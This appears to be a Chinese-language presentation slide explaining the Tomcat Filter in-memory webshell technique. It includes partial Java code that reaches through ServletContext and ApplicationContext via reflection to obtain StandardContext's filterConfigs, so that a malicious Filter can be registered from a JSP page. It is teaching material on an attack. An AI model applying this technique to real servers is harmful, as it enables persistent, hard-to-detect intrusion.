

# 基本概念
上面利用doFilter方法写入了一个恶意类，那么如何找到注入点来动态的在内存中创建一个Filter对象，来实现Filter的内存马呢？可以利用JSP作为载体在JSP中写入恶意类来实现此目的。整体思路是首先要获得一个干活的context也就是StandardContext并且要通过StandardContext中的filterConfigs属性来动态注册Filter。
部分代码如下：
//定义过滤器
final String name = "FilterMemShell";
//获取servletContext
ServletContext servletContext = request.getSession().getServletContext();
Field appctx = servletContext.getClass().getDeclaredField("context");
appctx.setAccessible(true);
//获取ApplicationContext
ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
Field stdctx = applicationContext.getClass().getDeclaredField("context");
stdctx.setAccessible(true);
//获取StandardContext
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
//获取 filterConfigs:存储当前上下文中注册的过滤器配置
Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
Configs.setAccessible(true);
Map filterConfigs = (Map) Configs.get(standardContext);

32